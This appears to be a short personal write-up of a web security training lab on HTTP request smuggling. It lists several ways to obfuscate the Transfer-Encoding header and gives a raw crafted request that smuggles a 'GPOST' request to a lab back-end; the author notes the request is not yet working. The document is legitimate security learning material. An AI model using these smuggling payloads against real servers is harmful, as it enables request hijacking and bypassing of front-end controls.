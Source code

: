 Title: HTTP request smuggling, obfuscating the TE header
Level: PRACTITIONER
Desc:  This lab involves a front-end and back-end server, and the two servers handle duplicate HTTP request headers in different ways. The front-end server rejects requests that aren't using the GET or POST method.
To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method GPOST. 


# Possible ways of Transfer-Encoding obfuscation: 
```
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```

# Walkthrough:

It should work, but it is not working:
```
POST / HTTP/1.1
Host: 0ac5006e04aee75c8003eec0002d006f.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 103
Transfer-Encoding: chunked
Transfer-encoding: cow

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```


